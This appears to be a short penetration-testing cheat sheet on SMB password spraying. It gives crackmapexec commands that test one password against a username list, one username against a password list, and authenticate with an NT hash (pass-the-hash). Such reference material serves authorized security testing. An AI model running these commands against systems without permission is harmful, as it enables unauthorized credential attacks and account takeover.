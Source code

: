 ## Miscellaneous Attacks In No Particular Order

**SMB Password Spraying**

When You have a working password and a list of userames, or a working username and a list of passwords, ``crackmapexec`` makes testing your credentials trivial.

```bash
crackmapexec smb <IP> -u <USERLIST> -p '<PASS>' --continue-on-success
crackmapexec smb <IP> -u '<USER>' -p <PASSLIST> --continue-on-success
# Authenticate with an NT hash
crackmapexec smb <IP> -u '<USER>'-H '<NTML_HASH>' --continue-on-success 
```
